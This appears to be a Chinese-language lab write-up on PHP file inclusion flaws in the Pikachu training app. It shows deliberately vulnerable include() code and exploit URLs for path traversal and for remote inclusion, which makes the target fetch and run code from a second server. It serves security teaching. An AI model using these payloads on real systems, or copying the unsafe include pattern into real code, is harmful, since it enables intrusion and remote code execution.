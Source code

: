 
## File Inclusion

文件包含,是一个功能.在各种开发语言中都提供了内置的文件包含函数,其可以使开发人员在一个代码文件中直接包含(引入)另外一个代码文件. 比如 在PHP中,提供了:
- include(),include_once()
- require(),require_once()

大多数情况下,文件包含函数中包含的代码文件是固定的,因此也不会出现安全问题. 但是,有些时候,文件包含的代码文件被写成了一个变量,且这个变量可以由前端用户传进来,这种情况下,如果没有做足够的安全考虑,则可能会引发文件包含漏洞. 攻击着会指定一个"意想不到"的文件让包含函数去执行,从而造成恶意操作. 根据不同的配置环境,文件包含漏洞分为如下两种情况:
1. 本地文件包含漏洞:仅能够对服务器本地的文件进行包含,由于服务器上的文件并不是攻击者所能够控制的,因此该情况下,攻击着更多的会包含一些 固定的系统配置文件,从而读取系统敏感信息.很多时候本地文件包含漏洞会结合一些特殊的文件上传漏洞,从而形成更大的威力.
2. 远程文件包含漏洞:能够通过url地址对远程的文件进行包含,这意味着攻击者可以传入任意的代码,这种情况没啥好说的,准备挂彩.

因此,在 web 应用系统的功能设计上尽量不要让前端用户直接传变量给包含函数,如果非要这么做,也一定要做严格的白名单策略进行过滤.

### 本地文件包含

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "include/$filename";//变量传进来直接包含,没做任何的安全限制
//     //安全的写法,使用白名单,严格指定包含的文件名
//     if($filename=='file1.php' || $filename=='file2.php' || $filename=='file3.php' || $filename=='file4.php' || $filename=='file5.php'){
//         include "include/$filename";

//     }
}
```

**漏洞利用**

查看页面的 url: `http://<服务器IP!!!>/pikachu/vul/fileinclude/fi_local.php?filename=file1.php&submit=提交`

尝试构造 payload: `http://<服务器IP!!!>/pikachu/vul/fileinclude/fi_local.php?filename=../../../test/phpinfo.txt&submit=%E6%8F%90%E4%BA%A4`

### 远程文件包含

将 allow_url_include 设置为 On

**服务器端核心代码**
```php
//远程文件包含漏洞,需要php.ini的配置文件符合相关的配置
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "$filename";//变量传进来直接包含,没做任何的安全限制
}
```

**漏洞利用**

尝试构造 payload: `http://<服务器IP!!!>/pikachu/vul/fileinclude/fi_remote.php?filename=http://<服务器B IP!!!>/phpinfo.php&submit=%E6%8F%90%E4%BA%A4`

---